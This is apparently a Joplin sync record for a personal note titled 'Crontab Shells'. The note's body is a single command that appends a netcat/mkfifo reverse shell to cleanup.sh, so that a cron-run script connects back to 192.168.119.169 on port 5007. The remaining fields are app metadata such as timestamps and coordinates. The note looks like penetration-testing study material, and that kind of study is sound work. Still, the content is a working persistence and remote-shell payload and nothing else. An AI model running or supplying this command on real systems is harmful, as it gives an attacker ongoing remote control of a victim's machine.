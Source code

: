 id: 048b0dfe25aa4ae9babea8ec9694cc30
parent_id: 
item_type: 1
item_id: 5815990658cf4211bb73b11b918fcdf6
item_updated_time: 1650815316857
title_diff: "[{\"diffs\":[[1,\"Crontab Shells\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":14}]"
body_diff: "[{\"diffs\":[[1,\"`echo \\\"rm /tmp/f;mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.119.169 5007 > /tmp/f\\\" >> cleanup.sh`\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":111}]"
metadata_diff: {"new":{"id":"5815990658cf4211bb73b11b918fcdf6","parent_id":"f80f8672eaed4d62a2259e78f826e286","latitude":"1.32980000","longitude":"103.72670000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1598370846836.75,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-24T15:53:59.344Z
created_time: 2022-04-24T15:53:59.344Z
type_: 13
